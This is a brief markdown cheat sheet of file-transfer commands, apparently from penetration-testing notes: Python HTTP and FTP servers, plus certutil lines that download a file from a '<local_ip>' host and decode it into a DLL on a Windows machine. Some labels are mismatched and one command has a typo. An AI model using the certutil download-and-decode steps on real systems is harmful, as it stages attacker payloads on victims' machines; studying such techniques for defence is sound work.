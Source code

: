 ### Python SimpleHTTPServer
```c
python -m SimpleHTTPServer <local_port>
```
### Python3 HTTP Server
```c
pyhton3 -m http.server <local_port>
```
### Simple FTP Server
```c
python -m pyftpdlib -p 21 --write
```
### Certutil
// Base64 encoding
```c
certutil.exe -urlcache -split -f "http://<local_ip>/<file>" <file>
```
// Base64 decoding
```c
certutil.exe -decode <file>.txt <file>.dll
```
